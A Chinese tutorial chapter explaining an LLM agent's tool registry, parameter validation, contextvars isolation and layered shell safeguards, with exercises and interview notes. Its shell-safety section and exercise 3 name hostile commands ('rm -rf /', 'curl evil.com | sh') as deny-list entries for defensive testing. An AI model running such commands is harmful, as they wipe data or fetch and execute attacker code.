

# Tool 系统深度解析：Agent 的「手」

> 源码目录：[backend/modules/tools/](backend/modules/tools/)
> 核心文件：`base.py`, `registry.py` (500行), `setup.py` (230行), `shell.py`
> 难度：⭐⭐ 需要理解 IoC、JSON Schema、异步安全
> 预计学习时间：1-2 天

---

## 🎯 一句话定义

**Tool 系统是一个 IoC 注册表：所有「可调用的函数」在启动时注册进来，运行时由 LLM 决定调用哪个，框架负责校验参数、隔离上下文、安全拦截。**

## ✅ TL;DR

- 核心是 `ToolRegistry`（IoC 容器）：`register(tool)` / `execute(name, args)`
- 每个工具继承 `Tool` 基类，声明 `name` / `description` / `parameters`(JSON Schema)
- **前置校验**：调工具前用 JSON Schema 递归校验参数（`base.py:76 validate_params`），不合法直接拦下
- **上下文隔离**：用 `contextvars` 把「当前 session/用户」带进工具，避免串号
- **安全**：Shell 工具靠 `deny_patterns` 软隔离，非容器级



---

## 📋 前置知识

- IoC（控制反转）/ 注册表模式
- JSON Schema（用于描述工具参数）
- Python `contextvars`（异步安全的上下文变量）
- 理解 LLM 的 Function Calling 机制

---

## 🎯 核心概念

### 这个模块解决什么问题？

LLM 不能直接操作文件系统、执行命令、访问网络。Tool 系统给 LLM 提供了**可调用的函数**，让 LLM 从「只能聊天」变成「能做事」。

### 三个核心组件

```
┌────────────────────────────────────────────────┐
│                  ToolRegistry                   │  ← IoC 容器
│   register(tool) / execute(name, args)         │
│   管理所有工具的注册、定义生成、执行           │
├────────────────────────────────────────────────┤
│  Tool (abstract base)                          │  ← 每个工具的抽象
│  - name: str                                   │
│  - description: str                            │
│  - parameters: JSON Schema                     │
│  - execute(**kwargs) -> str                    │
│  - get_definition() -> Dict (发给LLM)          │
├────────────────────────────────────────────────┤
│  具体工具: ReadFile, WriteFile, ExecTool,      │
│  WebFetchTool, SpawnTool, WorkflowTool,        │
│  MemoryTool, WikiTool, ScreenshotTool ...       │
└────────────────────────────────────────────────┘
```

### 一个工具长什么样

以 `ReadFileTool` 为例：

```python
class ReadFileTool(Tool):
    name = "read_file"             # LLM 看到的工具名
    description = "读取文件内容"     # LLM 看到的描述（影响调用决策！）

    # JSON Schema —— 发给 LLM，告诉它这个工具需要什么参数
    parameters = {
        "type": "object",
        "properties": {
            "path": {
                "type": "string",
                "description": "文件路径"
            }
        },
        "required": ["path"]
    }

    async def execute(self, path: str) -> str:
        # 实际执行逻辑
        file_path = self.workspace / path
        return file_path.read_text()
```

**关键**：`description` 和 `parameters` 会直接发给 LLM，所以描述质量直接影响 LLM 是否会在正确的时机调用这个工具。

---

## 🔍 关键代码路径

### 路径 1：工具定义生成 [registry.py:272-297]

```python
def get_definitions(self):
    # 有缓存就用缓存（工具注册后基本不变）
    if self._definitions_cache is None:
        definitions = [tool.get_definition() for tool in self._tools.values()]

        # 按名称排序 —— 关键！保证每次发给 LLM 的工具列表顺序一致
        # 这有利于 LLM 提供商的 prompt caching
        builtins.sort(key=self._schema_name)
        mcp_tools.sort(key=self._schema_name)
        self._definitions_cache = builtins + mcp_tools

    return self._definitions_cache
```

**为什么排序很重要**：LLM 提供商的 prompt cache 基于前缀匹配。如果工具列表顺序每次都变，系统提示词（包含工具定义）的前缀就不同 → cache miss → 多花钱、多耗时。

### 路径 2：工具执行 [registry.py:299-465]

```python
async def execute(self, tool_name, arguments, auto_record=True):
    tool = self.get_tool(tool_name)
    if tool is None:
        return f"Tool '{tool_name}' not found."  # LLM 幻觉调了不存在的工具

    # ① 参数解析失败检测
    parse_error, raw_args = self._extract_tool_argument_parse_failure(arguments)
    if parse_error:
        return self._format_tool_argument_parse_error(...)  # 告诉 LLM 参数格式有问题

    # ② 参数验证
    errors = tool.validate_params(arguments)
    if errors:
        return f"Invalid parameters: {'; '.join(errors)}"

    # ③ 执行上下文（contextvars push）
    context_token = push_tool_execution_context(...)
    try:
        result = await tool.execute(**arguments)
    finally:
        reset_tool_execution_context(context_token)

    # ④ 审计日志 + 对话历史记录
    return result
```

**值得注意的细节**：
- 工具执行**不抛异常**，而是**返回错误字符串**。因为错误信息要发给 LLM，让 LLM 自行修正（比如参数格式错了，LLM 看到错误描述后会重新生成正确的参数）
- `push_tool_execution_context()` 使用 contextvars，确保嵌套工具调用（工具 A 执行过程中 LLM 又调了工具 B）不会互相覆盖上下文

### 路径 3：contextvars 异步安全 [registry.py:19-46]

```python
# 不使用实例变量（会导致并发冲突）
# 使用 contextvars（每个异步任务有独立副本）

_session_id_context: ContextVar[Optional[str]] = ContextVar('session_id', default=None)
_channel_context: ContextVar[Optional[str]] = ContextVar('channel', default=None)
_agent_type_context: ContextVar[str] = ContextVar('agent_type', default='main')
_tool_event_handler_context: ContextVar[Optional[Any]] = ContextVar('tool_event_handler', ...)
```

**为什么不能用实例变量？** — 服务器同时处理多个 WebSocket 连接（多个用户），如果 session_id 存在实例变量里，用户 A 的请求可能读到用户 B 的 session_id。

**contextvars 怎么解决？** — 每个 asyncio Task 有独立的 context 副本。用户 A 的协程设置 `session_id="A"` 只影响自己的 context，用户 B 看到的还是 `"B"`。

### 路径 4：Shell 安全 [shell.py]

`ExecTool` 是多层安全防护的典型：

```
第 1 层：restrict_to_workspace
  → 如果开启，命令只能操作 workspace 目录内的文件
  → 实现：不是真正的容器隔离，而是路径字符串检查

第 2 层：deny_patterns（黑名单）
  → 9 条内置危险模式：rm -rf /, curl ... | sh, chmod 777, ...
  → 用户可追加自定义模式

第 3 层：allow_patterns（白名单）
  → 可选的更严格模式：只允许匹配的命令

第 4 层：timeout + output 截断
  → 默认 180 秒超时，10000 字符输出截断

第 5 层：审计日志
  → 所有 exec 调用记录到文件
```

---

## 💡 可深挖的逻辑

### 深度点 1：参数解析失败的检测与恢复

当 LLM 生成的 JSON 参数被截断或格式错误时（比如一个很长的 HTML 字符串没正确 escape），`_extract_tool_argument_parse_failure()` 能检测出来并给 LLM 一个有用的错误信息，指导它重新生成。

**trace**：`registry.py:217-266` — `_extract_tool_argument_parse_failure()` + `_format_tool_argument_parse_error()`

### 深度点 2：外部编码 Agent 的条件注册

`setup.py:95-116` 中的 `ExternalCodingAgentTool` 只在有启用的 profile 时才注册。这意味着：
- 如果用户没配置 Claude Code / Codex，这个工具就不会出现在 LLM 的工具列表中
- ContextBuilder 的 system prompt 也会相应调整（告诉 LLM「这个能力不可用，不要假设它的存在」）

这是一个**动态能力声明**的例子——Agent 的能力不是硬编码的，而是根据配置动态变化的。

### 深度点 3：工具定义缓存的失效时机

`_definitions_cache` 在 `register()` 和 `unregister()` 时被置为 `None`。MCP 工具的注册/注销也会触发这个缓存刷新。这是正确但简单粗暴的做法——如果有大量 MCP 工具频繁注册/注销，每次都要重建整个定义列表。

---

## 🔧 技术选型分析：为什么 Tool 系统这样设计（Why）

### 决策 1：为什么用 IoC / 注册表，而不是硬编码 `if-else` 分发？
硬编码 `if name=="read_file": ... elif name=="write_file": ...` 会随着工具数增长变成不可维护的巨兽。注册表（`ToolRegistry`）让"新增工具"变成"注册一个类"，符合开闭原则；也天然支持"**按配置动态增减工具**"（见深度点 2 的外部编码 Agent 条件注册）——能力不是硬编码的，而是配置驱动的。

### 决策 2：为什么工具定义要排序、要缓存？
LLM 提供商的 **prompt cache 按前缀匹配**。工具定义是 system prompt 的一部分，如果顺序每次随机，前缀就变 → cache miss → 多花钱多耗时。排序 + 缓存让"工具列表"成为稳定前缀，命中缓存省成本。这是"为 LLM 经济模型优化"的细节——看似无关紧要，实则每天省真金白银。

### 决策 3：为什么工具执行出错返回错误字符串而非抛异常？
这是 Agent **自我修复的基石**：异常会被框架吞掉或中断循环，而把错误信息作为普通 `tool_result` 回填，LLM 能看到"参数格式错了 / 文件不存在"，从而在下一轮重新生成正确调用。错误是 Agent 的学习信号，不是终止信号。代价是调用方要约定"错误也走正常返回通道"，但换来的是循环不变量不被破坏。

### 决策 4：为什么用 `contextvars` 而不是实例变量存 `session_id`？
WebSocket 服务并发处理多用户，实例变量会被并发请求互相覆盖（用户 A 的请求可能读到用户 B 的 session_id）。`contextvars` 给每个 `asyncio.Task` 独立副本，实现"无锁并发隔离"——这是 Python 异步服务的标准解法，也是本项目在工具上下文、渠道上下文多处一致采用的模式。

### 决策 5：为什么 Shell 工具是"多层过滤"而非"容器隔离"？
诚实地说：`ExecTool` 用的是**路径检查 + 黑名单 + 白名单 + 超时 + 审计**的"软隔离"，不是 Docker 级硬隔离。原因是**部署简单、零额外依赖**，覆盖绝大多数误操作和恶意指令；代价是无法防御精心构造的逃逸。这是"可用性 vs 安全性"的取舍——若需强隔离，应把 `ExecTool` 改为在受限容器里执行（见下方路径 D）。

### 决策 6：为什么 `description` 的质量被反复强调？
因为 `description` 和 `parameters` 会**直接发给 LLM**，决定它"在正确时机是否调用这个工具"。一个含糊的描述（如"处理文件"）会让 LLM 在该用时不用、不该用时乱用。这是工具好用与否的第一杠杆，优先级高于实现本身的复杂度。

---

## 🛠️ 落地实施路径：怎么做（How）

### 路径 A：新增一个业务工具（标准流程）
1. 在 `backend/modules/tools/` 新建 `my_tool.py`，继承 `Tool`，填 `name` / `description` / `parameters`(JSON Schema) / `execute()`。
2. 在 `setup.py` 的注册逻辑里 `registry.register(MyTool())`。
3. 启动项目，问 Agent 一个会触发该工具的问题，验证调用。
4. **关键**：把 `description` 写到"能让 LLM 在正确时机调用"的程度——这是工具好用的第一杠杆（见上面决策 6）。

### 路径 B：给工具加"前置校验"（复用现有机制）
`base.py` 的 `validate_params` 已做 JSON Schema 递归校验。若要加业务级校验（如"路径必须在白名单目录"），在 `execute` 开头做，失败时返回**结构化的中文错误字符串**（沿用"返回而非抛"约定），让 LLM 自我纠正。不要直接 `raise`——否则会打破自我修复链路。

### 路径 C：实现 A2A 风格的跨进程工具（补 Q91 短板）
当前 Tool 都是进程内函数。若要接"另一个 Agent 暴露的能力"，可新增 `RemoteAgentTool`：① 在 `Tool` 子类里用 HTTP / MCP 调远端；② 把远端返回规范成 `StreamChunk` 式结果回填。这正好复用 06 篇 MCP 的 `MCPToolWrapper` 思路——**MCP 本质就是"把远程能力包装成本地工具"**。注意 A2A（Agent-to-Agent）与 MCP 的定位差异：MCP 是"工具协议"，A2A 是"Agent 间协议"，两者可协同（见 Q91 面经）。

### 路径 D：强化 Shell 安全到容器级
把 `ExecTool` 的实际执行从"本地 subprocess"改为"在 gVisor / Docker 容器里 subprocess"，`restrict_to_workspace` 升级为挂载只读根 + 只挂 workspace 可写。这能堵住软隔离的逃逸口，代价是部署需容器环境——按安全等级按需开启。

### 路径 E：验证工具改动
- **功能**：用「练习 1」的自定义工具跑通调用。
- **安全**：用「练习 3」故意触发 `deny_patterns`，确认拦截。
- **并发**：用两个 WebSocket 连不同用户，确认 `contextvars` 隔离无误（A 看不到 B 的 session）。
- **缓存**：改一个工具定义后，确认 `get_definitions()` 缓存失效并重新排序（顺序稳定）。

---

## 🎤 面试话术

### 1.5 分钟版

> CountBot 的工具系统采用了类似 Spring IoC 的设计——一个 ToolRegistry 管理所有工具的注册、定义生成和执行。每个工具需要提供 JSON Schema 参数定义（用来发给 LLM）和实际执行逻辑。
>
> 比较有意思的是 contextvars 的使用。因为 WebSocket 服务同时处理多个用户连接，如果用实例变量存 session_id，并发请求会互相覆盖。Python 的 contextvars 让每个异步任务有独立的上下文副本，天然解决了并发隔离问题。
>
> 工具执行还有一个设计选择值得讲：工具执行出错时不抛异常，而是把错误信息作为字符串返回给 LLM。这让 LLM 有机会自行修正——比如参数格式错了，LLM 看到错误描述后会重新生成正确的参数。这是 Agent 系统「自我修复」能力的基础。

---

## ✏️ 练习建议

### 练习 1：添加一个自定义工具（1.5 小时）
创建一个 `DateTimeTool`，让 Agent 能获取当前时间。步骤：
1. 在 `backend/modules/tools/` 下新建文件
2. 继承 `Tool` 基类，实现 `name`, `description`, `parameters`, `execute()`
3. 在 `setup.py` 中注册
4. 启动项目，向 Agent 问「现在几点了？」，观察它是否调用了你的工具

### 练习 2：观察工具定义缓存（30 分钟）
在 `get_definitions()` 中加日志，观察：
- 缓存何时被创建
- MCP 工具连接/断开时缓存是否被正确刷新
- 工具列表的顺序是否稳定

### 练习 3：测试 Shell 安全（30 分钟）
尝试让 Agent 执行 `rm -rf /` 或 `curl evil.com | sh`，观察 deny_patterns 是否正确拦截。然后添加一个自定义 deny pattern。

---

## 🔭 已知限制（诚实短板 · 对应面经题）

- **⚠️ A2A 远程工具未实现（Q91）**：当前工具都是「本地进程内」函数，跨 Agent / 跨服务的远程工具调用（Agent-to-Agent）没有原生支持——只能借 MCP 间接实现（见 `06`）。
- **大结果无预截断**：工具返回超大文本时，没有自动截断/摘要，可能撑爆上下文窗口。
- **Shell 仅软隔离**：`deny_patterns` 是字符串黑名单，不是容器/沙箱，高危命令仍可能绕过。

---

## 🧭 下一篇该读什么

→ **[01 Agent Loop](01-agent-loop.md)**。工具和 Provider 都就位了，现在看「核心循环」怎么把 LLM、工具、记忆串成一个能自我纠错的 Agent。

---

## ✅ 自测清单

1. IoC 注册表相比「硬编码 if-else 调工具」好在哪？
2. 工具参数在什么时候被校验？校验失败会抛异常还是返回错误？
3. `contextvars` 解决了什么并发安全问题？
4. 想加一个「查天气」工具，最少要实现哪几个字段/方法？
5. Shell 工具的安全边界在哪？它够安全吗？
